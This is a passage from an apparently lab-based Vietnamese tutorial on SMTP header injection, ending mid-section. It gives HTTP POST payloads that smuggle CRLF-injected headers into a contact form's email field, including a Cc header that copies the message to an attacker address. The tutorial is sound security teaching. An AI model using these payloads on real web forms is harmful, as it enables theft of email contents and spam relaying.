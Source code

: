 Các header quan trọng trong SMTP bao gồm:
- `From`: Địa chỉ người gửi.
- `To`: Địa chỉ người nhận.
- `Cc`: Carbon copy, gửi bản sao đến một người nhận khác.
- `Bcc`: Blind carbon copy, gửi bản sao nhưng không hiển thị người nhận khác.
- `Subject`: Tiêu đề email.

### 2. **Phát hiện lỗ hổng SMTP Header Injection**

Khi một ứng dụng web có chức năng gửi email và cho phép người dùng nhập thông tin vào các trường như địa chỉ email, tên, hoặc tiêu đề, chúng ta cần kiểm tra xem dữ liệu người dùng có được lọc đúng cách hay không.

Ví dụ về yêu cầu HTTP kiểm tra lỗ hổng:

```http
POST /contact.php HTTP/1.1
Host: smtpinjection.htb
Content-Length: 105
Content-Type: application/x-www-form-urlencoded

name=evilhacker&[email protected]%0d%0aTestheader:%20Testvalue&phone=123456789&message=Hello+Admin%21
```

Trong ví dụ trên:
- `%0d%0a` là chuỗi CRLF (Carriage Return và Line Feed).
- Chúng ta đã chèn một header tùy ý (`Testheader: Testvalue`) vào email.

Nếu yêu cầu này được phản hồi và header `Testheader: Testvalue` được thêm vào email, ứng dụng có lỗ hổng SMTP Header Injection.

### 3. **Khai thác SMTP Header Injection**

#### **3.1. Thêm người nhận vào email**

Khi không thể xem được email kết quả, kẻ tấn công có thể thử thêm email của mình vào danh sách người nhận để kiểm tra:

```http
POST /contact.php HTTP/1.1
Host: smtpinjection.htb
Content-Length: 107
Content-Type: application/x-www-form-urlencoded

name=evilhacker&[email protected]%0d%0aCc:%[email protected]&phone=123456789&message=Hello+Admin%21
```

Nếu email được gửi đến `[email protected]`, thì lỗ hổng đã được xác nhận. Điều này có thể dẫn đến:
- **Đánh cắp thông tin nhạy cảm**: Kẻ tấn công nhận được nội dung email gốc.
- **Gửi spam**: Kẻ tấn công có thể chèn một danh sách email lớn vào trường `To`, `Cc`, hoặc `Bcc`.

#### **3.2. Chèn thêm header tùy ý**

Nếu ứng dụng thêm dữ liệu vào sau đầu vào của người dùng (ví dụ: thêm dấu chấm than `!`), kẻ tấn công cần phải chèn một header giả sau payload chính để tránh việc payload bị phá vỡ:

